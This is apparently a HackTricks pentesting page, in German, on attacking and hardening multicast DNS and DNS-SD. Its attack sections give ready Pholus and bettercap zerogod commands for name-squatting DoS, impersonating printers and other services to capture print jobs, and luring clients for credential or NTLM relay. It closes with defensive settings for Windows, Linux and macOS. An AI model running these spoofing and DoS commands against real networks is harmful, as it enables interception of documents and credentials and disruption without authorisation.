 # 5353/UDP Multicast DNS (mDNS) und DNS-SD

{{#include ../banners/hacktricks-training.md}}

## Grundlegende Informationen

Multicast DNS (mDNS) ermöglicht die DNS-ähnliche Namensauflösung und Dienstentdeckung innerhalb eines lokalen Links ohne einen Unicast-DNS-Server. Es verwendet UDP/5353 und die Multicast-Adressen 224.0.0.251 (IPv4) und FF02::FB (IPv6). DNS Service Discovery (DNS-SD, typischerweise mit mDNS verwendet) bietet eine standardisierte Möglichkeit, Dienste über PTR-, SRV- und TXT-Einträge aufzulisten und zu beschreiben.
```
PORT     STATE SERVICE
5353/udp open  zeroconf
```
Wichtige Protokolldetails, die Sie häufig während Angriffe nutzen werden:
- Namen in der .local-Zone werden über mDNS aufgelöst.
- Das QU (Query Unicast) Bit kann unicast Antworten auch für multicast Fragen anfordern.
- Implementierungen sollten Pakete ignorieren, die nicht von der lokalen Verbindung stammen; einige Stacks akzeptieren sie dennoch.
- Probing/Ankündigung erzwingt eindeutige Host-/Servicenamen; hier einzugreifen schafft DoS/„Name Squatting“-Bedingungen.

## DNS-SD-Dienstmodell

Dienste werden als _<service>._tcp oder _<service>._udp unter .local identifiziert, z.B. _ipp._tcp.local (Drucker), _airplay._tcp.local (AirPlay), _adb._tcp.local (Android Debug Bridge) usw. Entdecken Sie Typen mit _services._dns-sd._udp.local und lösen Sie entdeckte Instanzen in SRV/TXT/A/AAAA auf.

## Netzwerkexploration und -enumeration

- nmap Zielscan (direktes mDNS auf einem Host):
```bash
nmap -sU -p 5353 --script=dns-service-discovery <target>
```
- nmap Broadcast-Discovery (hören Sie auf das Segment und enumerieren Sie alle DNS-SD-Typen/Instanzen):
```bash
sudo nmap --script=broadcast-dns-service-discovery
```
- avahi-browse (Linux):
```bash
# Listet Diensttypen auf
avahi-browse -bt _services._dns-sd._udp
# Durchsucht alle Dienste und löst sie in Host/Port auf
avahi-browse -art
```
- Apple dns-sd (macOS):
```bash
# Durchsucht alle HTTP-Dienste
dns-sd -B _http._tcp
# Enumeriert Diensttypen
dns-sd -B _services._dns-sd._udp
# Löst eine spezifische Instanz in SRV/TXT auf
dns-sd -L "My Printer" _ipp._tcp local
```
- Paketaufzeichnung mit tshark:
```bash
# Live-Aufzeichnung
sudo tshark -i <iface> -f "udp port 5353" -Y mdns
# Nur DNS-SD-Dienstlistenabfragen
sudo tshark -i <iface> -f "udp port 5353" -Y "dns.qry.name == \"_services._dns-sd._udp.local\""
```

Tipp: Einige Browser/WebRTC verwenden ephemere mDNS-Hostnamen, um lokale IPs zu maskieren. Wenn Sie zufällige UUID.local-Kandidaten im Netzwerk sehen, lösen Sie sie mit mDNS auf, um zu lokalen IPs zu pivotieren.

## Angriffe

### mDNS-Namen-Probing-Interferenz (DoS / Name Squatting)

Während der Probing-Phase überprüft ein Host die Eindeutigkeit des Namens. Das Antworten mit gefälschten Konflikten zwingt ihn, neue Namen auszuwählen oder zu scheitern. Dies kann die Registrierung und Entdeckung von Diensten verzögern oder verhindern.

Beispiel mit Pholus:
```bash
# Block new devices from taking names by auto-faking responses
sudo python3 pholus3.py <iface> -afre -stimeout 1000
```
### Service-Spoofing und Identitätsdiebstahl (MitM)

Geben Sie beworbene DNS-SD-Dienste (Drucker, AirPlay, HTTP, Dateifreigaben) vor, um Clients dazu zu bringen, sich mit Ihnen zu verbinden. Dies ist besonders nützlich, um:
- Dokumente zu erfassen, indem _ipp._tcp oder _printer._tcp gefälscht werden.
- Clients zu HTTP/HTTPS-Diensten zu locken, um Tokens/Cookies zu sammeln oder Payloads zu liefern.
- Mit NTLM-Relay-Techniken zu kombinieren, wenn Windows-Clients Authentifizierung zu gefälschten Diensten aushandeln.

Mit dem zerogod-Modul von bettercap (mDNS/DNS-SD-Spoofer/Imitator):
```bash
# Start mDNS/DNS-SD discovery
sudo bettercap -iface <iface> -eval "zerogod.discovery on"

# Show all services seen from a host
> zerogod.show 192.168.1.42

# Impersonate all services of a target host automatically
> zerogod.impersonate 192.168.1.42

# Save IPP print jobs to disk while impersonating a printer
> set zerogod.ipp.save_path ~/.bettercap/zerogod/documents/
> zerogod.impersonate 192.168.1.42

# Replay previously captured services
> zerogod.save 192.168.1.42 target.yml
> zerogod.advertise target.yml
```
Auch sehen Sie generische LLMNR/NBNS/mDNS/WPAD Spoofing- und Anmeldeinformationen-Erfassungs-/Relay-Workflows:

{{#ref}}
../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}

### Hinweise zu aktuellen Implementierungsproblemen (nützlich für DoS/Persistenz während Engagements)

- Avahi reachable-assertion und D-Bus Absturzfehler (2023) können den avahi-daemon auf Linux-Distributionen beenden (z.B. CVE-2023-38469..38473, CVE-2023-1981), was die Dienstentdeckung auf Zielhosts bis zum Neustart stört.
- Cisco IOS XE Wireless LAN Controller mDNS Gateway DoS (2024, CVE-2024-20303) ermöglicht es angrenzenden Angreifern, die CPU stark zu belasten und APs zu trennen. Wenn Sie auf ein mDNS-Gateway zwischen VLANs stoßen, seien Sie sich seiner Stabilität bei fehlerhaften oder hochfrequenten mDNS-Anfragen bewusst.

## Defensive Überlegungen und OPSEC

- Segmentgrenzen: Routen Sie 224.0.0.251/FF02::FB nicht zwischen Sicherheitszonen, es sei denn, ein mDNS-Gateway ist ausdrücklich erforderlich. Wenn Sie die Entdeckung überbrücken müssen, ziehen Sie Whitelists und Ratenlimits vor.
- Windows-Endpunkte/Server:
- Um die Namensauflösung über mDNS vollständig zu deaktivieren, setzen Sie den Registrierungswert und starten Sie neu:
```
HKLM\SYSTEM\CurrentControlSet\Services\Dnscache\Parameters\EnableMDNS = 0 (DWORD)
```
- In verwalteten Umgebungen deaktivieren Sie die integrierte Regel „mDNS (UDP-In)“ der Windows Defender Firewall (mindestens im Domänenprofil), um die eingehende mDNS-Verarbeitung zu verhindern und gleichzeitig die Home-/Roaming-Funktionalität zu erhalten.
- Bei neueren Windows 11-Versionen/GPO-Vorlagen verwenden Sie die Richtlinie „Computer Configuration > Administrative Templates > Network > DNS Client > Configure multicast DNS (mDNS) protocol“ und setzen Sie sie auf Deaktiviert.
- Linux (Avahi):
- Schränken Sie das Veröffentlichen ein, wenn es nicht benötigt wird: setzen Sie `disable-publishing=yes` und beschränken Sie Schnittstellen mit `allow-interfaces=` / `deny-interfaces=` in `/etc/avahi/avahi-daemon.conf`.
- Erwägen Sie `check-response-ttl=yes` und vermeiden Sie `enable-reflector=yes`, es sei denn, es ist unbedingt erforderlich; ziehen Sie `reflect-filters=` Whitelists beim Reflektieren vor.
- macOS: Beschränken Sie eingehendes mDNS an Host-/Netzwerkfirewalls, wenn die Bonjour-Entdeckung für bestimmte Subnetze nicht benötigt wird.
- Überwachung: Alarmieren Sie bei ungewöhnlichen Anstiegen in `_services._dns-sd._udp.local`-Anfragen oder plötzlichen Änderungen in SRV/TXT kritischer Dienste; dies sind Indikatoren für Spoofing oder Dienstimitation.

## Werkzeugübersicht

- nmap NSE: `dns-service-discovery` und `broadcast-dns-service-discovery`.
- Pholus: aktives Scannen, umgekehrte mDNS-Scans, DoS- und Spoofing-Helfer.
```bash
# Passive sniff (timeout seconds)
sudo python3 pholus3.py <iface> -stimeout 60
# Enumerate service types
sudo python3 pholus3.py <iface> -sscan
# Send generic mDNS requests
sudo python3 pholus3.py <iface> --request
# Reverse mDNS sweep of a subnet
sudo python3 pholus3.py <iface> -rdns_scanning 192.168.2.0/24
```
- bettercap zerogod: entdecken, speichern, bewerben und imitieren von mDNS/DNS-SD-Diensten (siehe Beispiele oben).

## Spoofing/MitM

Der interessanteste Angriff, den Sie über diesen Dienst durchführen können, besteht darin, ein MitM in der Kommunikation zwischen dem Client und dem echten Server durchzuführen. Sie könnten in der Lage sein, sensible Dateien (MitM der Kommunikation mit dem Drucker) oder sogar Anmeldeinformationen (Windows-Authentifizierung) zu erhalten.\
Für weitere Informationen siehe:

{{#ref}}
../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}

## Referenzen

- [Practical IoT Hacking: The Definitive Guide to Attacking the Internet of Things](https://books.google.co.uk/books/about/Practical_IoT_Hacking.html?id=GbYEEAAAQBAJ&redir_esc=y)
- [Nmap NSE: broadcast-dns-service-discovery](https://nmap.org/nsedoc/scripts/broadcast-dns-service-discovery.html)
- [bettercap zerogod (mDNS/DNS-SD discovery, spoofing, impersonation)](https://www.bettercap.org/modules/ethernet/zerogod/)

{{#include ../banners/hacktricks-training.md}}
